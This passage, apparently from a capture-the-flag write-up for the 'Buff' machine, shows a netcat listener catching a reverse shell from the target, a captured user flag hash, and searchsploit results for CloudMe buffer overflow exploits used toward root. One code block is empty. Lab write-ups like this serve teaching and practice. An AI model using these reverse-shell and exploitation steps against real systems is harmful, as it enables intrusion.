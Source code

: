 #### On the localhost
```
root@kali:~# nc -nlvp 4443
Listening on 0.0.0.0 4443
Connection received on 10.10.10.198 49684
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun
```

`user.txt` is in the `C:\Users\shaun\Desktop`.
```
C:\Users\shaun\Desktop>type user.txt
type user.txt
16a71e4eade671c342101c50b256e2ef

```


## 3. Getting Root

In `C:\Users\shaun\Downloads>` directory, we can find an interesting binary called `CloudMe_1112.exe`.
```
C:\Users\shaun\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\shaun\Downloads

14/07/2020  12:27    <DIR>          .
14/07/2020  12:27    <DIR>          ..
16/06/2020  15:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   9,840,857,088 bytes free

```

Using the following command, we can see that actually this binary is running as a process.
```

```

Run searchsploit again for `CloudMe`.<br>
We can find a buffer overflow exploit [CloudMe 1.11.2 - Buffer Overflow](https://www.exploit-db.com/exploits/48389).
```
root@kali:~# searchsploit cloudme
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                                             | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)                                    | windows/local/48499.txt
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)                                    | windows/local/48840.py
Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)                                   | windows_x86-64/remote/45197.rb
CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Bypass)                            | windows_x86-64/local/45159.py
```